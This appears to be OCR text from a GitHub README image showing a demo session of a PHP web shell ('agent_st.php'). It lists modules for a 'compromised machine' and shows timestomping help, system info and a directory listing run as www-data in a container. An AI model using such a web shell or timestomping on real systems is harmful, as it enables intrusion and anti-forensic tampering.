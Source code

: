 ```
|     rm     | Module |                           Remove file or multiple files                           |    @secu_x11    |
|  sysinfo   | Module |                  Get basic system info about compromised machine                  |    @secu_x11    |
| tcpconnect | Module |                                Connect to TCP Port                                |    @secu_x11    |
|   touch    | Module |               Change the date of an existing file or multiple files               |    @secu_x11    |
|   upload   | Module |                       Upload a local file to remote filepath                      |    @secu_x11    |
|  webinfo   | Module |                Get basic web server info about compromised machine                |    @secu_x11    |
+------------+--------+-----------------------------------------------------------------------------------+-----------------+

(ST) www-data@c48827a1b2ac:/var/www/html$ help touch                                                                                    
usage: touch datetime [files [files ...]]

Change the date of an existing file or multiple files

positional arguments:
  datetime  Date represented in 'd/m/Y-H:i:s' format
  files     File/s to change date

Examples:
  touch 01/01/2022-00:00:00 example.txt
  touch 01/01/2022-00:00:00 /tmp/passwd
  touch 01/01/2022-00:00:00 ../test_1.txt ../test_2.txt
  touch 01/01/2022-00:00:00 C:/Windows/Tasks/example.txt

(ST) www-data@c48827a1b2ac:/var/www/html$ sysinfo                                                                                       
Hostname: c48827a1b2ac
IP: 172.19.0.2
OS: Linux c48827a1b2ac 5.15.0-58-generic #64-Ubuntu SMP Thu Jan 5 11:43:13 UTC 2023 x86_64
User: www-data
Path: /var/www/html/agent_st.php
Version: 8.0.25

(ST) www-data@c48827a1b2ac:/var/www/html$ cd ..                                                                                         
(ST) www-data@c48827a1b2ac:/var/www$ ls

                
  drwxr-xr-x  1      root      root      4096   2022/11/15 04:13:21  .      
  drwxr-xr-x  1      root      root      4096   2022/11/15 04:13:21  ..     
  drwxrwxrwx  1      www-data  www-data  4096   2023/02/21 22:58:28  html   

(ST) www-data@c48827a1b2ac:/var/www$ exit

```
